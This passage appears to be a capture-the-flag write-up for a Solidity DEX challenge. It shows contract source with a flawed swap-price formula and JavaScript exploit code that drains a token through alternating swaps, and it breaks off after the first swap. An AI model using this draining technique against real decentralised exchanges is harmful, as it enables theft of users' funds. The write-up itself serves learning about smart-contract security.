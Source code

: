 ```sol
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

Here the `swap` amount is calculated incorrectly, we could drain one of the token by following a sequence of swaps.
```
TOKEN1 => TOKEN2 => TOKEN1 => TOKEN2 .......
```

> #### Solution:
> In order to swap tokens we have to first approve the contract to transfer our tokens.
> ```js
> swapTokens = async (from, to, amount) => {
>   if (!amount) amount = await contract.balanceOf(from, player);
>     await web3.eth.sendTransaction({
>         from: player,
>         to: from,
>         data: web3.eth.abi.encodeFunctionSignature("approve(address,uint256)") + instance.substring(2).padStart(64, "0") + web3.utils.encodePacked(amount).substring(2)
>     });
>     await contract.swap(from, to, amount);
> }
> ```
> 
> ```js
> await swapTokens(token1, token2);
> // [token1: player=0, contract=110] [token2: player=20, contract=90]
> 